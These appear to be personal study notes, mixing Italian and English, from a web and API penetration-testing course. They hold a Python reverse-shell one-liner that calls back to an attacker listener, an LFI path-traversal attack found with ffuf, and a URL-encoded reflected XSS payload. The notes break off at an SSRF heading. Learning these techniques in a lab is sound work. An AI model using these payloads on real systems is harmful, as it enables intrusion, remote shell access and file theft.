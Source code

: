 - reverse shell nella finestra con lo script `web_shell.py`

```shell
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<VPN/TUN Adapter IP>",<LISTENER PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

se tutto va bene abbiamo una shell di root!

# Local File Inclusion (LFI)

Local File Inclusion (LFI) is an attack that affects web applications and APIs alike. It allows an attacker to read internal files and sometimes execute code on the server via a series of ways, one being Apache Log Poisoning. Our File Inclusion module covers LFI in detail.

Let us assess together an API that is vulnerable to Local File Inclusion.

## Exploit

deve chiaramente esistere un endpoint vuolnerabile in questo caso `/api/download`, trovato tramite `ffuf`

```shell
$ curl http://$TARGET:$TARGET_PORT/api
$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common-api-endpoints-mazen160.txt -u "http://$TARGET:$TARGET_PORT/api/FUZZ"
$ curl http://$TARGET:$TARGET_PORT/api/download
$ curl "http://$TARGET:$TARGET_PORT/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
```

# Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) vulnerabilities affect web applications and APIs alike. An XSS vulnerability may allow an attacker to execute arbitrary JavaScript code within the target's browser and result in complete web application compromise if chained together with other vulnerabilities. Our Cross-Site Scripting (XSS) module covers XSS in detail.

## Exploit

Immaginiamo di avere il'endpoint di prima `/api/download`. Proviamo ad andare a `http://<TARGET IP>:3000/api/download/test_value` e otteniamo una risposta dal server che contiene il nome della risorsa cercata `test_value is reflected in the response`. Potrebbe essere il caso di provare a mettere codice js e vedere se lo esegue.
Proviamo con `<script>alert(document.domain)</script>` e da errore.
Vediamo con lo stesso script ma encodato `%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E`. Questa volta funziona!
Attenzione, non encodarlo due volte, solo una.

# Server-Side Request Forgery (SSRF)
